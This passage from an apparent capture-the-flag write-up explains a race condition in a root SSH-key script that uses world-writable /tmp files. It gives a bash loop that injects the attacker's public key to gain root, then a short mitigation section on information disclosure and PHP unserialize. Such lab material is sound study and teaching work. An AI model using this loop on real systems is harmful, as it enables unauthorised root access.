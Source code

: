This script contains three functions:

The `addKey` functions creates a temporary file in `/tmp` that starts with `ssh-`, it then gives the file 110 permission using `umask` which is `rw-rw-rw-`. After that it writes the public key to the temporary file which is then used to add the key to `authorized_keys`

The `checkFile` function checks if the temporary file already exists in `/tmp`.

`checkAdded` checks if `root`'s public key is in `authorized_keys` file.

To exploit this we need to write a script that runs in a loop checking the `/tmp` for a file that starts with `ssh-`, if it finds it we tell it to write our public key to the file so it could then be added to `root`'s authorized_key file.

First we generate a pair of ssh keys using the following command:

```bash
ssh-keygen -f id_rsa
```

The content of `.pub` file is our public key.

The script to exploit this race condition is the following:

```bash
while true; do
    for file in /tmp/ssh-*; do
        echo "ssh-rsa AAAAB3N1Txxxxxxxxxxxxxxxxxxxxxx11pJx84kV sirius@kali" > $file
    done
done
```

Put your public key in the script and let's get root.

We first run the script, get another session as `neil` and run the sudo command:

![root](11.png)

Since this is a race condition, we need to keep running the script until we get the error:

```bash
Error in adding root@ubuntu to authorized_keys file!
```

This indicates that our key have been successfully writen in the `authorized_keys` and we can proceed to connect as root.

## **Prevention and Mitigation**

### Neil

`Neil` revealed to much information like the name of the php file and the backup.

Sensitive information like that should be kept private between the developers and any conversation between them should take place in a safe space.

### PHP unserialize

There is an insecure deserialization in `sator.php` because user input is submitted directly to the `unserialize` function.
